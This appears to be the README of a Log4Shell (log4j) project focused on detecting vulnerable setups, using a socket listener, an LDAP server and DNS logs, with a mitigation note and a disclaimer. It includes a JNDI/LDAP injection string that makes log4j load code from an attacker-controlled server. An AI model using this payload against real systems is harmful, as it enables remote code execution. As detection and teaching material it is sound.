 # Log4Shell Zero-Day Exploit

if attacker manage to log this string `${jndi:ldap://someaddresshere/param1=value1}`
to log4j it somehow loads the class/java bytecode sent by Attacker Controlled LDAP Server. The bytecode could be used to
execute any malicious code or do some little trolling.

## Detection

### Patched

- Mitigated by deleting `org.apache.logging.log4j.core.lookup.JndiLookup` somehow didn't crash
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919169712435388466/unknown.png)

### Unpatched

- Note: 1.16.5 Minecraft Server
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919170755843989534/unknown.png)
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919172251771895878/unknown.png)

### [MainDetector.java](standalone-detector/src/main/java/itzbenz/MainDetector.java)

Use simple socket to listen on port 1389 then close the socket once its connected no external dependency
- Note: not always the case, sometimes it doesn't bother to load class url location given by LDAP Server
- Vulnerable:\
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919166884425900082/unknown.png)

- Console:\
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919166938654072852/unknown.png)

going to throw error if its is vulnerable

### [MainAlerter.java](standalone-detector/src/main/java/itzbenz/MainAlerter.java)

Use `com.unboundid:unboundid-ldapsdk` library to host LDAP server

- Note: not always the case if using `javaNamingReference`
- Vulnerable:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919168285709312000/unknown.png)
- LADP Server:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919171844836311050/unknown.png)

### DNS Log

Both sender and receiver are logged which mean they are vulnerable

- Note: not always the case
- Vulnerable:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919174049861619752/unknown.png)

## Conclusion

- to test if its actually vulnerable, try to use harmless payloads if its running then its vulnerable

- if `com.sun.jndi.ldap.object.trustURLCodebase` property is set to `true` then you are vulnerable like really
  ![](https://cdn.discordapp.com/attachments/918290369639227434/919240541810610206/unknown.png)

# Disclaimer

This project can only be used for educational purposes. Using this software against target systems without prior
permission is illegal, and any damages from misuse of this software will not be the responsibility of the author.
